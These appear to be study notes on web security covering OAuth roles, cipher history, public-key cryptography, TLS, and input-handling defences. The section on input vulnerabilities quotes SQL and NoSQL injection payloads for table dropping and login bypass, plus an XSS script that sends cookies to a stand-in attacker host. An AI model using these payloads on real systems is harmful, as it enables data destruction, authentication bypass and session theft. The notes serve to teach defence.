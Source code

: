 		- Client: application making requests on behalf of the resource owener
		- Authentication server: issues tokens to the client upon identified owener.
- Cryptography:
	- Early cipher attempt: Vigenère cipher
		- The key phrase is written below the message and the letters are added together to form the cipher text as illustrated
	- Modern Block Ciphers
		- encrypt and decrypt messages using an iterative replacing of a message with another scrambled message using 64 or 128 bits at a time.
		- Data Encryption Standard (DES), replacement: Advanced Encryption Standard (AES).
	- Symmetric Key Problem
		- Same key to encode and decode
		- Distribution of the key among communication is a problem
	- Public key encryption e.g. RSA
		- Public key cryptography solves symmetric key encryption problem of having to exchange secret key
		- Public key: widely transferred; private key: kept by owner
		- Once a key is used to encrypt message, same key cannot be used to decrypt message
		- To ensure public key's identity, use a trusted third party (Certification Authority)
	- Digital certificates
		- Includes name, subject's public key, digital certificate serial number, expiration date, issue date, digital signature of CA.
	- HTTPS
		- is HTTP running on top of Transport Layer Security (TLS)
	- TLS (former: Secure Sockets Layer, SSL)
		- Authenticate transmission parties (mainly the server) using public-key encryption
		- Use symmetric key encryption to encrypt the data transmitted
- User input vulnerabilities
	- User input:
		- For DB operation: SQL injection
		- Embedded as response to the user: Cross-site scripting (XSS)
		- To solve this problem: validate input, use safe encoding
	- SQL injection example:
		- Table drop:
			- ```INSERT INTO students (last_name, first_name) VALUES ('XKCD', '/*Robert’); DROP TABLE Students;-- */')```
		- Login bypass:
			- ```SELECT * FROM users WHERE username = '/* ' or 1=1--*/' AND password = ''```
		- NoSQL injection:
			- ```db.users.find({username: /*{"$gt": ""}*/, password: /*{"$gt": ""}*/});```
	- XSS example: response contains executable script from user input
		- ```
			<script>var img = document.createElement(“img”);
			img.src = 'http://evil.martinfowler.com/steal?' + document.cookie;
			</script>
			```
		- This content is assigned to variable "communicationType" which will be sent by code
			```
			res.send("Can't send by type " + communicationType));
			```
- Input handling:
	- Positive validation and white-list
		- email address, valid value range
	- Negative validation and blacklist
		- filter <script> tag
	- Input sanitization
		- remove undesirable input rather than reject whole input
- Output encoding
	- Unescaped: ```<script> alert(“hello”);</script>```
	- Escaped: ```&lt;script&gt;alert(&quot;hello&quot;);&lt;/script&gt;```
